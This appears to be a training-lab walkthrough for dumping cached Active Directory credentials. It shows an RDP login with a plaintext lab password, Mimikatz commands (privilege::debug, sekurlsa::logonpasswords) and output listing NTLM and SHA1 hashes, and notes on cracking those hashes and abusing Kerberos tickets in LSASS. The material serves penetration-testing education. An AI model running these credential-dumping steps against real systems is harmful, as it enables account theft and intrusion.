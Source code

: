 Topics: Cached AD Credentials

Questions
Follow the steps outlined in this section to retrieve the cached NTLM hash. Furthermore, execute the dir command and list the cached tickets. What is the Mimikatz command to dump hashes for all users logged on to the current system?
sekurlsa::logonpasswords

# Access to client 75 Windows OS
xfreerdp /cert-ignore /u:jeff /d:corp.com /p:HenchmanPutridBonbon11 /v:192.168.240.75

# Open Powershell in administrator
PS C:\Tools> .\mimikatz.exe
mimikatz # privilege::debug
Privilege '20' OK

# Now we can run sekurlsa::logonpasswords to dump the credentials of all logged-on users with the sekurlsa module
mimikatz # sekurlsa::logonpasswords
...
         * Username : dave
         * Domain   : CORP
         * NTLM     : 08d7a47a6f9f66b97b1bae4178747494
         * SHA1     : a0c2285bfad20cc614e2d361d6246579843557cd

         * Username : jeff
         * Domain   : CORP
         * NTLM     : 2688c6d2af5e9c7ddb268899123744ea
         * SHA1     : f57d987a25f39a2887d158e8d5ac41bc8971352f
...

# We can observe two types of hashes highlighted in the output above. This will vary based on the functional level of the AD implementation.
# For instances running Windows Server 2008 or later, both NTLM and SHA-1. On older operating systems like Windows 7, or operating systems that have it manually set, WDigest11 will be enabled. When WDigest is enabled, running Mimikatz will reveal cleartext passwords alongside the password hashes.

# Armed with these hashes, we could attempt to crack them and obtain the cleartext password as we did in Password Attacks.

# A different approach and use of Mimikatz is to exploit Kerberos authentication by abusing TGT and service tickets. As already discussed, we know that Kerberos TGT and service tickets for users currently logged on to the local machine are stored for future use. These tickets are also stored in LSASS, and we can use Mimikatz to interact with and retrieve our own tickets as well as the tickets of other local users.
